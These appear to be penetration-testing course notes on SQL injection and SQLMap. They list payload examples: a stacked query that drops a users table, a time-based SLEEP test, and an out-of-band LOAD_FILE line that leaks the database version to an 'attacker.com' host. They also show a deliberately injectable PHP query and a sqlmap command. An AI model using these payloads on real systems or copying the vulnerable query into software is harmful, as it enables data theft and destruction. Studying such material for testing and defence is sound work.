 - Stacked queries 

```sql
; DROP TABLE users
```

- Time-based blind 

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

- Inline queries 

```sql
SELECT (SELECT @@version) from
```

- Out-of-band 

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

---

# Basics

Taking the following code as the target page:
```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $query);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

Where the input goes in the URL. To run SQLMap take the URL with the input: `http://www.example.com/vuln.php?id=1`, and then:
```console
zero@pio$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

## Log Messages Description

The following are some of the most common messages usually found during a scan of SQLMap:

> target URL content is stable 
There are no major changes between responses in case of continuous identical requests.

> GET parameter 'id' appears to be dynamic 
It is a sign that any changes made to its value would result in a change in the response; hence the parameter may be linked to a database. In case the output is "static" and does not change, it could be an indicator that the value of the tested parameter is not processed by the target, at least in the current context.

> heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
There was a MySQL error when SQLMap sends an intentionally invalid value was used, which indicates that the tested parameter could be SQLi injectable and that the target could be MySQL.

